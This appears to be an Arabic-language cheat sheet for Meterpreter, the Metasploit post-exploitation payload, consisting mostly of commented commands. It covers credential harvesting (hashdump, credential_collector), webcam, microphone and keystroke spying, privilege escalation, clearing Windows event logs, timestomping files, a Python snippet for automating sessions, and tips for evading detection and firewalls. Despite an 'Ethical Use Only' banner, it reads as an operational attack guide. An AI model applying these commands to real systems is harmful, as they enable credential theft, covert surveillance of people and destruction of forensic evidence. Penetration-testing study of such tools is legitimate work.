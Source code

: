 


            _____________________________  
                 |[METERPREETER] >_             |  
         |=============================|  
         |  [+] Session Opened          |  
         |  [+] Privilege: System       |  
         |  [+] Target: 192.168.1.5     |  
         |                              |  
         |  [COMMANDS]                  |  
         |  - download <file>           |  
         |  - webcam_stream             |  
         |  - keyscan_start             |  
         |                              |  
         |  [WARNING]                   |  
         |  Ethical Use Only!           |  
         |______________________________|  
               / \__                    
              (    @\___               
              /         O\              
             /   (_____/                 
            /_____/   U                  




مترپريتر (Meterpreter) هو أداة متقدمة للإختراق في مجال الأمن السيبراني. إليك نظرة مختصرة عليه:

مترپريتر هو "حمولة" (payload) متطورة في إطار برنامج Metasploit، وهو أحد أشهر منصات اختبار الاختراق المفتوحة المصدر. يتميز مترپريتر بأنه:

يعمل بالكامل في الذاكرة دون كتابة أي شيء على القرص الصلب (memory-only)
يوفر واجهة تفاعلية للتحكم في الأنظمة المستهدفة بعد الاختراق
يدعم عمليات تصعيد الصلاحيات والتنقل داخل الشبكات
يسمح بتحميل وتنزيل الملفات من الأجهزة المستهدفة
يوفر آليات للتخفي من أنظمة كشف التسلل والفيروسات
يستخدم مترپريتر عادة في عمليات اختبار الاختراق القانونية (Penetration Testing) لتقييم مستوى أمان الأنظمة والشبكات وتحديد نقاط الضعف فيها.

من أهم خصائصه أنه قادر على الاتصال بأنظمة التشغيل المختلفة مثل Windows وLinux وAndroid وغيرها.

مر Meterpreter الأساسية
إدارة الجلسة
help                # عرض المساعدة
background          # تشغيل الجلسة في الخلفية
sessions -i [ID]    # التبديل بين الجلسات
exit                # إنهاء الجلسة
استكشاف النظام
getuid              # عرض المستخدم الحالي
sysinfo             # عرض معلومات النظام
ipconfig/ifconfig   # عرض معلومات الشبكة
ps                  # عرض العمليات النشطة
التنقل في نظام الملفات
pwd                 # عرض المجلد الحالي
cd [المسار]          # تغيير المجلد
ls                  # عرض محتويات المجلد
cat [الملف]          # عرض محتوى ملف
download [المصدر] [الوجهة] # تنزيل ملف من الهدف
upload [المصدر] [الوجهة]   # رفع ملف إلى الهدف
تصعيد الامتيازات
getsystem           # محاولة تصعيد الامتيازات إلى SYSTEM/root
getprivs            # الحصول على جميع الامتيازات الممكنة
جمع المعلومات
hashdump            # استخراج جميع هاشات كلمات المرور (Windows)
lsa_dump_sam        # استخراج هاشات SAM (Windows)
run post/windows/gather/credential_collector  # جمع بيانات الاعتماد
run post/linux/gather/hashdump               # استخراج الهاشات على Linux
التقاط الشاشة والصوت
screenshot          # التقاط صورة للشاشة
record_mic -d [المدة] # تسجيل من الميكروفون
webcam_list         # عرض قائمة كاميرات الويب المتاحة
webcam_snap         # التقاط صورة من كاميرا الويب
التحكم في النظام
shell               # فتح shell تفاعلي
execute -f [الأمر]   # تنفيذ أمر على النظام المستهدف
kill [PID]          # إنهاء عملية معينة
reboot / shutdown   # إعادة تشغيل أو إيقاف تشغيل النظام
تقنيات التخفي
migrate [PID]       # نقل Meterpreter إلى عملية أخرى
clearev             # محو سجلات الأحداث في Windows
timestomp [الملف]    # تعديل الطوابع الزمنية للملفات
استخدام Meterpreter مع Python
يمكنك أتمتة مهام Meterpreter باستخدام Python من خلال:
pythonimport pymetasploit3.msfrpc as msfrpc

# إنشاء اتصال بخادم MSFRPC
client = msfrpc.MsfRpcClient('password', port=55553)

# العمل مع جلسات Meterpreter
sessions = client.sessions.list
session = client.sessions.session('1')

# تنفيذ الأوامر
output = session.run_shell_cmd('whoami')
print(output)
نصائح متقدمة

انتقل دائمًا إلى عملية أكثر استقراراً: استخدم ps للعثور على عملية مستقرة وانتقل إليها باستخدام migrate [PID]
استخدم التشغيل في الخلفية: عند الحاجة للعمل مع عدة أهداف، استخدم background للتبديل بين الجلسات
قم بإنشاء روتات: استخدم وحدة autoroute لإعداد التوجيه عبر النظام المستهدف للوصول إلى الشبكات الداخلية
استخدم المنافذ المألوفة: قم بإعداد المستمعات على منافذ مثل 80 و 443 للتغلب على جدران الحماية
تجنب الكشف: قلل من النشاط والضوضاء على الشبكة، واستخدم تقنيات التواصل المتقطع مثل set SessionCommunicationTimeout



